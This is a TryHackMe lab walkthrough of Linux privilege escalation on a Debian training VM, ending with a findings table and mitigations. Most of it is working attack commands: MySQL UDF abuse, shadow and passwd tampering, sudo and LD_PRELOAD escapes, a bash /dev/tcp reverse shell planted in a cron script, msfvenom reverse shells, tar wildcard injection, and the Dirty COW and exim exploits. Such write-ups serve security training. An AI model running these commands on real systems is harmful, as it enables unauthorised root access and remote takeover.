# TryHackMe - Linux PrivEsc

## Overview

Full walkthrough of the TryHackMe Linux PrivEsc room against a Debian VM, chaining 18 distinct root-level privilege escalation techniques including **MySQL UDF abuse**, shadow/passwd file tampering, sudo and **LD_PRELOAD** misconfigurations, cron writable scripts and wildcard injection, **SUID binary exploitation**, bash function/PS4 hijacking, insecure SSH keys, NFS no_root_squash abuse, and the **Dirty COW** kernel exploit (**CVE-2016-5195**) to obtain root.

**Platform:** TryHackMe | **Room:** Linux PrivEsc | **Difficulty:** Easy-Medium

**Attacker:** Kali Linux | **Target:** 10.66.189.164 | **OS:** Debian Linux

**Techniques Covered:**

MySQL UDF, Shadow File, Writable /etc/passwd, Sudo Misconfigs, Cron Jobs, Wildcard Injection, SUID Exploitation, Bash Debugging, SSH Keys, NFS, Dirty COW

---

## 1. MySQL User Defined Functions (UDF)

MySQL was running as root with no password set. A UDF exploit was compiled and loaded into MySQL to execute system commands as root.

```bash
cd /home/user/tools/mysql-udf
gcc -g -c raptor_udf2.c -fPIC
gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
mysql -u root
```

```sql
use mysql;
create table foo(line blob);
insert into foo values(load_file('/home/user/tools/mysql-udf/raptor_udf2.so'));
select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';
create function do_system returns integer soname 'raptor_udf2.so';
select do_system('cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash');
```

```bash
/tmp/rootbash -p
```



---

## 2. World-Readable /etc/shadow

The /etc/shadow file was world-readable, exposing all password hashes.

```bash
cat /etc/shadow
```

The root hash was saved and cracked offline using John the Ripper.

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```



**Result:** **root:password123**

```bash
su root
```



---

## 3. World-Writable /etc/shadow

The /etc/shadow file was also world-writable. A new password hash was generated and used to replace the root hash directly.

```bash
mkpasswd -m sha-512 newpassword
nano /etc/shadow
su root
```



---

## 4. World-Writable /etc/passwd

The /etc/passwd file was world-writable. A new password hash was generated and inserted in place of the *x* placeholder for root, then a new root-level user was appended.

```bash
openssl passwd newpassword
nano /etc/passwd
echo 'newroot:HASH:0:0:root:/root:/bin/bash' >> /etc/passwd
su newroot
```



---

## 5. Sudo Misconfigurations

The user account was allowed to run 11 programs via sudo with no password. Each program was looked up on GTFOBins for shell escape sequences.

```bash
sudo -l
```



**iftop:**

```bash
sudo iftop
!/bin/sh
```



**find:**

```bash
sudo find . -exec /bin/sh \; -quit
```



**LD_PRELOAD / LD_LIBRARY_PATH:**

Environment variables LD_PRELOAD and LD_LIBRARY_PATH were inherited by sudo. A malicious shared object was compiled and loaded to spawn a root shell.

```bash
gcc -fPIC -shared -nostartfiles -o /tmp/preload.so /home/user/tools/sudo/preload.c
sudo LD_PRELOAD=/tmp/preload.so find
```



---

## 6. Cron Job - Writable Script

A cron job was running a world-writable script as root. The script was replaced with a reverse shell payload.

```bash
nc -nvlp 4444
```

```bash
echo '#!/bin/bash' > /usr/local/bin/overwrite.sh
echo 'bash -i >& /dev/tcp/192.168.203.76/4444 0>&1' >> /usr/local/bin/overwrite.sh
```



---

## 7. Cron Job - PATH Hijacking

The cron PATH variable started with /home/user. A script named overwrite.sh placed in the home directory was executed as root by the cron job.

```bash
echo '#!/bin/bash' > /home/user/overwrite.sh
echo 'cp /bin/bash /tmp/rootbash' >> /home/user/overwrite.sh
echo 'chmod +xs /tmp/rootbash' >> /home/user/overwrite.sh
/tmp/rootbash -p
```



---

## 8. Cron Job - Wildcard Injection

A cron job ran tar with a wildcard in /home/user. Files named after tar command line options were created to inject a reverse shell payload.

```bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.203.76 LPORT=4444 -f elf -o shell.elf
chmod +x /home/user/shell.elf
touch /home/user/--checkpoint=1
touch /home/user/--checkpoint-action=exec=shell.elf
nc -nvlp 4444
```



---

## 9. SUID - Exim CVE-2016-1531

The SUID binary /usr/sbin/exim-4.84-3 was vulnerable to a known local privilege escalation exploit.

```bash
/home/user/tools/suid/exim/cve-2016-1531.sh
```



---

## 10. SUID - Shared Object Injection

The SUID binary /usr/local/bin/suid-so attempted to load a shared object from the user's home directory. A malicious shared object was compiled in its place.

```bash
strace /usr/local/bin/suid-so 2>&1 | grep -iE "open|access|no such file"
mkdir /home/user/.config
gcc -shared -fPIC -o /home/user/.config/libcalc.so /home/user/tools/suid/libcalc.c
/usr/local/bin/suid-so
```



---

## 11. SUID - PATH Environment Variable

The SUID binary /usr/local/bin/suid-env called service without an absolute path. A malicious service binary was compiled and the PATH was prepended with the current directory.

```bash
gcc -o service /home/user/tools/suid/service.c
PATH=.:$PATH /usr/local/bin/suid-env
```



---

## 12. SUID - Bash Function Hijacking

The SUID binary /usr/local/bin/suid-env2 used the absolute path /usr/sbin/service. A bash function was defined with the same name and exported to override it.

```bash
function /usr/sbin/service { /bin/bash -p; }
export -f /usr/sbin/service
/usr/local/bin/suid-env2
```



---

## 13. Bash Debugging - PS4 Injection

Bash versions below 4.2-048 allow shell functions named after absolute paths. The PS4 debug variable was abused to execute a command as root while running a SUID binary.

```bash
env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash)' /usr/local/bin/suid-env2
/tmp/rootbash -p
```



---

## 14. Password in History

The user had previously typed a MySQL password directly on the command line, which was saved in bash history.

```bash
cat ~/.*history | less
```

The root password was found in the history and used to switch to root.

```bash
su root
```



---

## 15. Insecure SSH Key

A world-readable root SSH private key was found in /.ssh/root_key. The key was copied to Kali and used to SSH directly as root.

```bash
chmod 600 root_key
ssh -i root_key -oPubkeyAcceptedKeyTypes=+ssh-rsa -oHostKeyAlgorithms=+ssh-rsa root@10.66.189.164
```



---

## 16. NFS Root Squashing Disabled

The /tmp NFS share had root squashing disabled. A SUID shell binary was created on the Kali machine as root and mounted to the target.

```bash
mount -o rw,nfsvers=3 10.66.189.164:/tmp /tmp/nfs
msfvenom -p linux/x86/exec CMD="/bin/bash -p" -f elf -o /tmp/nfs/shell.elf
chmod +xs /tmp/nfs/shell.elf
/tmp/shell.elf
```



---

## 17. Dirty COW (CVE-2016-5195)

A kernel exploit was used to overwrite the SUID /usr/bin/passwd binary with a shell. This exploit abuses a race condition in the Linux kernel's copy-on-write mechanism.

```bash
gcc -pthread /home/user/tools/kernel-exploits/dirtycow/c0w.c -o c0w
./c0w
/usr/bin/passwd
```



---

## 18. Room Completed



---

## Findings Summary

| Technique | Misconfiguration | Result |
|-----------|-----------------|--------|
| MySQL UDF | MySQL running as root with no password | Root shell via UDF exploit |
| Shadow File Read | /etc/shadow world-readable | Root password hash cracked |
| Shadow File Write | /etc/shadow world-writable | Root password replaced |
| Passwd File Write | /etc/passwd world-writable | New root user created |
| Sudo Misconfig | 11 programs allowed via sudo NOPASSWD | Root shell via GTFOBins escapes |
| LD_PRELOAD | Sudo inherits LD_PRELOAD | Malicious shared object loaded as root |
| Cron Writable Script | Cron script world-writable | Reverse shell executed as root |
| Cron PATH Hijack | /home/user first in cron PATH | Script in home dir executed as root |
| Wildcard Injection | tar wildcard in cron job | Reverse shell via checkpoint options |
| SUID Exim | Known CVE in exim binary | Root shell via exploit script |
| Shared Object Injection | SUID binary loads from user directory | Malicious .so executed as root |
| SUID PATH Hijack | SUID binary calls service without absolute path | Malicious binary executed as root |
| Bash Function Hijack | Bash version below 4.2-048 | Function named after absolute path executed |
| Bash Debug PS4 | PS4 variable executed during SUID binary | Command injected via debug mode |
| Password in History | Password typed on command line | Root password recovered from history |
| Insecure SSH Key | World-readable root private key | Direct SSH access as root |
| NFS No Root Squash | Root squashing disabled on NFS share | SUID binary created and executed as root |
| Dirty COW | Kernel CVE-2016-5195 | SUID binary overwritten via race condition |

---

## Recommended Mitigations

- Run MySQL as a restricted service account, never as root
- Set correct permissions on /etc/shadow (640) and /etc/passwd (644)
- Audit sudo rules and remove unnecessary NOPASSWD entries
- Restrict LD_PRELOAD and LD_LIBRARY_PATH in sudo configuration
- Set correct permissions on cron scripts. Only root should be able to write
- Audit cron PATH variable and avoid putting user directories first
- Avoid using wildcards in cron commands
- Keep software patched and up to date
- Audit SUID binaries and remove unnecessary SUID permissions
- Store SSH private keys securely with correct permissions
- Enable root squashing on all NFS shares
- Keep the kernel patched against known exploits
- Educate users never to type passwords directly on the command line
- Clear bash history regularly or configure HISTFILE to /dev/null for sensitive accounts

---

## Skills Demonstrated

- Linux Privilege Escalation Enumeration (LinPEAS, LinEnum, LSE)
- MySQL UDF Exploitation
- Password Hash Cracking (John the Ripper)
- Sudo Misconfiguration Exploitation (GTFOBins)
- Cron Job Abuse (Writable Scripts, PATH Hijacking, Wildcard Injection)
- SUID Binary Exploitation
- Shared Object Injection
- Bash Function and Debug Mode Abuse
- SSH Key Exploitation
- NFS Misconfiguration Abuse
- Kernel Exploitation (Dirty COW CVE-2016-5195)
